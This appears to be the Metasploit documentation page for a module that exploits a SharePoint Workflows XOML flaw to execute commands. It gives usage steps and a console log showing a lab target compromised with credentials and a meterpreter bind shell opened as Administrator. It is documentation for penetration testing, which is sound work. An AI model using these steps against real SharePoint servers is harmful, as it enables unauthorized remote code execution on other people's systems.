 ## Vulnerable Application

This module exploits a vulnerability within SharePoint and it's .NET backend
that allows an attacker to execute commands using specially crafted XOML data
sent to SharePoint via the Workflows functionality.

## Verification Steps
  Example steps in this format (is also in the PR):

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/sharepoint_workflows_xoml`
  1. Set the target options (`RHOSTS`, `RPORT` and `SSL`) as appropriate
  1. Set the authentication options (`DOMAIN`, `USERNAME` and `PASSWORD`) as appropriate
  1. Do: `run`
  1. You should get a shell

## Example

SharePoint 2019 installed on Windows Server 2016 x64.

```
msf5 exploit(windows/http/sharepoint_workflows_xoml) > show options 

Module options (exploit/windows/http/sharepoint_workflows_xoml):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKGROUP        yes       The domain to use for Windows authentication
   PASSWORD   Password1        yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.14   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to the SharePoint application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   administrator    yes       Username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     192.168.159.14   no        The target address


Exploit target:

   Id  Name
   --  ----
   2   Windows Powershell


msf5 exploit(windows/http/sharepoint_workflows_xoml) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Started bind TCP handler against 192.168.159.14:4444
[*] Sending stage (206403 bytes) to 192.168.159.14
[*] Meterpreter session 3 opened (0.0.0.0:0 -> 192.168.159.14:4444) at 2020-03-23 18:11:44 -0400

meterpreter > sysinfo
Computer        : SHRPNT2019-P
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT2019P
Logged On Users : 14
Meterpreter     : x64/windows
meterpreter > getuid
Server username: SHRPNT2019P\Administrator
meterpreter >
```